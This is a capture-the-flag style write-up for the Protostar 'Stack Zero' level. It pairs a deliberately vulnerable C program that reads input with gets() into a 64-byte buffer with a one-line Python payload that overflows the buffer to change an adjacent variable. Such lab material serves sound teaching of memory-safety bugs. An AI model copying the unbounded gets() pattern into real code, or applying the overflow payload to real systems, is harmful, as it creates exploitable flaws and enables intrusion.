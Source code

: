 # Stack Zero

This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.

This level is at /opt/protostar/bin/stack0

## Source Code

```c++
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

## Writeup

In this code we have a **buffer** of 64 char, that means is a **buffer** of 64 byte.

After this, in the Stack we have the **modified** variable of 4 byte.

We can write 64 char and add at the end the 4 byte of **modified** value.

Let's write an '**A**' 64 times and than add a 1 in the **modified** variable.

```bash
python -c "print('A' * 64 + '\x01')" | ./stack0
```

The output of the program will be:

```bash
user@protostar:/opt/protostar/bin$ python -c "print('A' * 64 + '\x01')" | ./stack0
you have changed the 'modified' variable
```

We know that the **modified** variable have 1 as value.